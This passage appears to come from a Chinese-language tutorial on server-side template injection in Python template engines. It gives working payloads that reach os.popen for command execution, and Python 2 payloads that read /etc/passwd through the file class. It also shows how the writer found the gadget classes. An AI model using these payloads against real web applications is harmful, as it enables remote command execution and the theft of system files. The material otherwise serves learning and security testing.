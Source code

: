 
把上面`find.py`脚本中的 search 变量换成`__import__`

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHzLzmshVlYxs02DobDVpdDwEJ5kwOseiccibHZmTuSkfWX7xBdlPRFSOw/640?wx_fmt=png)

可以看到有 5 个类下是包含`__import__`的，随便用一个即可

payload 如下

```
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
```

### python2 的方法

因为 python3 和 python2 两个版本下有差别，这里把 python2 单独拿出来说

tips：python2 的`string`类型不直接从属于属于基类，所以要用两次 `__bases__[0]`

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuH34a4EwZh6h2U0ymL3L3nTVA9oFjwY39SxMOpUBzZWRqfTPQpR978uA/640?wx_fmt=png)

*   `file`类读写文件
    

本方法只能适用于 python2，因为在 python3 中`file`类已经被移除了

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHSrByGicWvibeOmKAO1J80SWVz54icjLV8VT4wqEfN310r1x17L89yibSSg/640?wx_fmt=png)

可以使用 dir 查看 file 对象中的内置方法

```
>>> dir(().__class__.__bases__[0].__subclasses__()[40])
['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
```

然后直接调用里面的方法即可，payload 如下

读文件

```
{{().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()}}

{{().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').readlines()}}
```

*   `warnings`类中的`linecache`
    

本方法只能用于 python2，因为在 python3 中会报错`'function object' has no attribute 'func_globals'`，猜测应该是 python3 中`func_globals`被移除了还是啥的，如果不对请师傅们指出

我们把上面的`find.py`脚本中的 search 变量赋值为`linecache`，去寻找含有`linecache`的类

```
λ python find.py
(<class 'warnings.WarningMessage'>, 59)
(<class 'warnings.catch_warnings'>, 60)
```

